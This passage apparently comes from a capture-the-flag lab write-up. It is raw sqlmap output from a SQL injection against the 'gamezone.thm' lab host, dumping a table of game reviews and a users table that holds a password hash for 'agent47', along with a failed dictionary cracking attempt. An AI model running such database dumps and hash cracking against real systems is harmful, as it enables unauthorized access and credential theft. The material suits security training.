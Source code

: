 Table: post
[5 entries]
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name                           | description                                                                                                                                                                                            |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | Mortal Kombat 11               | Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.                                                         |
| 2  | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005                     | Best game ever                                                                                                                                                                                         |
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
| 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

[21:15:45] [INFO] table 'db.post' dumped to CSV file '/root/.sqlmap/output/gamezone.thm/dump/db/post.csv'
[21:15:45] [INFO] fetching columns for table 'users' in database 'db'
[21:15:45] [INFO] fetching entries for table 'users' in database 'db'
[21:15:45] [INFO] recognized possible password hashes in column 'pwd'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[21:15:52] [INFO] writing hashes to a temporary file '/tmp/sqlmapy20nep16844/sqlmaphashes-x97rp9.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[21:15:57] [INFO] using hash method 'sha256_generic_passwd'
[21:15:57] [WARNING] no clear password(s) found
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+

[21:15:57] [INFO] table 'db.users' dumped to CSV file '/root/.sqlmap/output/gamezone.thm/dump/db/users.csv'
[21:15:57] [INFO] fetched data logged to text files under '/root/.sqlmap/output/gamezone.thm'

[*] shutting down at 21:15:57

root@ip-[Attack_Box]:~/gamezone# 
</code></pre>
